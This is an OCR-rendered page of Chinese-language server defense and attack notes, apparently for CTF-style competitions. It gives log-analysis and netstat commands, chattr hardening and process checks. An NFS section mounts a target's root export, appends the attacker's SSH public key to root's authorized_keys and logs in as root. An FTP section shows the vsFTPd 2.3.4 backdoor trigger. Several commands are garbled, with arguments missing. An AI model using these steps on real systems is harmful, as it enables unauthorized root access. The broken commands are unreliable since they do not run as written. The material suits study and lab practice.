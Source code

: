 ```shell
cat /var/log/apache2/access.log | cut ‐f1 ‐d
r | head ‐
#查看页面访问排名前十的URL
cat /var/log/apache2/access.log | cut ‐f4 ‐d
r | head ‐
```

netstat ‐ant|awk |grep |sed ‐e ‐e |sort|uniq ‐c|sort ‐rn
win:netstat -no 查看网络链接

# 防御&&attack

## 防篡改

chattr +i /etc/profile
chattr -R +i /var/www/html
chattr +a /var/log 只能追加

## 进程检查

如果我们怀疑某个进程正在是受到溢出攻击后创建的 shell 进程，我们可以分析这个进程是否有 socket 连接，linux 中查看指定进程 socket 连接数的命令为:
比如我们查看 ssh 进程的 socket 连接。如果我们检测的程序有 socket 连接，说明它正在进行网络通信，我们就需要进行进一步判断。

## 检查 nfs

rpcinfo -p 192.168.189.131
showmount -e
mkdir /tmp/r00t

mount -t nfs 192.168.99.131:/ /tmp/r00t/

cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys

umount /tmp/r00t

ssh root@192.168.99.131

## ftp ssh 配置文件检查

    telnet 192.168.99.131 21

    Trying 192.168.99.131…

    Connected to 192.168.99.131.

    Escape character is &#039;^]&#039;.

    220 (vsFTPd 2.3.4)

    user backdoored:)

    331 Please specify the password.

    pass invalid
